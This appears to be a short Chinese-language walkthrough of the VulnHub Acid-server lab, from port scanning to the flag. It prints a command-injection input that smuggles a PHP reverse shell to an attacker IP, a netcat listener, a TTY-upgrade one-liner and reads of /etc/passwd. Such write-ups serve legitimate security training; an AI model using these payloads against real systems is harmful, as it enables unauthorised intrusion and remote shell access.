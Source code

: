 # VulnHub: Acid-server
- https://www.vulnhub.com/entry/acid-server,125/

## Walkthrough
nmap掃描虛擬機ip及port，發現位於33447/tcp是開啟狀態，service為http  
`$ sudo nmap -sP 172.16.71.0/24`  
`$ sudo nmap -p1-65535 -sV 172.16.71.208`

利用DirBuster暴力掃目錄，從cake.php中找出/Magic_Box，掃/Magic_Box，發現command.php  
首先ping172.16.71.1;id發現命令成功注入，嘗試獲取shell，監聽3333port  
`$ nc -l 3333`  
用php反彈shell成功，最後payload:  
`172.16.71.1; php-r '$sock=fsockopen("172.16.71.1",3333);exec("/bin/sh-i<&3 >&3 2>&3");'`  
發現su指令無法執行，出現錯誤訊息su:must be run from a terminal，用python調用本地shell  
`$ python -c 'import pty;pty.spawn("/bin/bash")'`  

查找用戶，發現三個可疑帳號acid、saman、root，嘗試找尋用戶的可疑文件  
`$ cat /etc/passwd`  
`$ find -user acid 2>/dev/null`  
發現pcapng可疑流量檔案，下載回本地查看  

利用wireshark打開hint.pcapng，找到saman密碼1337hax0r  
利用find找到flag.txt，成功！
